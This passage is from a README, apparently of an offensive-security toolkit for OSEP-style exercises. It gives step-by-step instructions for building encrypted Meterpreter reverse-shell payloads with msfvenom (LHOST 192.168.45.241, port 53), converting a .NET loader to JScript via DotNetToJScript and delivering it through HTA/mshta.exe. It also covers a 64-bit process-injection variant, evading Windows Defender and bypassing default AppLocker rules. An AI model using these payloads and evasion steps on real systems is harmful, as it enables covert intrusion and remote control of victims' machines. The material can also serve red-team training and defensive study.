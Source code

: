   - The Windows Defender setup shown above flags the DotNetToJS setup code in the Users's Internet Explorer cache directory, but interestingly enough even if the cached file is deleted, the `mshta.exe` process that the shell is living in isn't killed. So, you get to keep the shell!
 
### Creating New Payloads

1. Create the payload. Example:
    - ```sh
      cd Shellcode-Encryption; msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.45.241 LPORT=53 -f raw > shellcode.raw
      ```
2. Create the template with `shellcode_encoder.py`. Example:
    - ```sh
      python shellcode_encoder.py -cs ./shellcode.raw blahBlah76 aes
      ```
3. Copy the key and encrypted shellcode into `DLLRunner32_DN2JS.cs`.
    - Keep in mind that the output template won't match up to the DLL code but you're smart enough to figure it out
    - Just copy/paste into the `key` and `buf` variables
4. Build the project
   - The project is integrated into the all-encompassing solution at `OSEP-Tools-v2/payloads/OSEP-Tools-v2.sln` 
    - Select this project, `Build` (it should be preset to x86-Release)
    - Default config will output to this project's `payload_dir/`
5. Create the JavaScript (on Windows). Example:
    - ```bat
      DotNetToJScript.exe DLLRunner32_DN2JS.dll --lang=Jscript -c DLLRunner32_DN2JS --ver=v4 -o DLLRunner32_DN2JS.js
      ```
6. Put into your HTA file
    - If you're debugging, you can add an `alert()` call in the JS's `debug` function


## [DLLInject64](./DLLInject64/DLLInject64_DN2JS.cs)

A combination of `DLLRunner32` and `clRunner` (in `Loaders_Shellcode`) projects. It injects `msfvenom windows/x64/meterpreter/reverse_tctp` shellcode into the specified 64-bit process.

This is basically the 64-bit brother of `DLLRunner32` that can't be delivered through IE, but is still very useful for bypassing default AppLocker rules. The `mshta.exe` triggering program is in the System32 folder which is whitelisted by default.

### Notes

- This **IS NOT** designed to be delivered through IE like DLLRunner32, rather you're supposed to load it with `mshta.exe`
  - The shellcode and DLL is 64-bit, if triggered through 32-bit IE, it will fail
- You will have to change the IP,PORT, & TGT_PROC arguments see [below instructions](#usage)
- Tested on Windows Defender setup:
  ```
  AMEngineVersion                 : 1.1.18400.5
  AMProductVersion                : 4.18.2009.7
  AMRunningMode                   : Normal
  AMServiceEnabled                : True
  AMServiceVersion                : 4.18.2009.7
  AntispywareEnabled              : True
  AntispywareSignatureAge         : 867
  AntispywareSignatureLastUpdated : 8/22/2021 5:28:57 PM
  AntispywareSignatureVersion     : 1.347.247.0
  AntivirusEnabled                : True
  AntivirusSignatureAge           : 867
  AntivirusSignatureLastUpdated   : 8/22/2021 5:28:56 PM
  AntivirusSignatureVersion       : 1.347.247.0
  ```
